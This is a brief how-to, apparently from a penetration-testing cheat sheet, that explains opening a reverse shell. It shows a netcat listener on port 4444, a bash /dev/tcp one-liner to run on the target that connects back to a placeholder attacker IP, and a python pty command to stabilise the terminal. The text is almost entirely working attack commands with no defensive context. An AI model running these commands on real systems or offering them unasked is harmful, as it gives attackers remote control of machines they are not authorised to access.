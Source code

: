 #To open reverse shell:
on the attack machine run:
'''
nc -lvnp 4444
'''
this will open a socket listening on port 4444, and then on the target machine run:
'''
bash -i >& /dev/tcp/<ip>/4444 0>&1
'''
This will connect to the port 4444 on the attack machine ip.
The connection can be unstable, so run the command to start a stable terminal:
'''
python -c 'import pty; pty.spawn("/bin/bash")'
'''
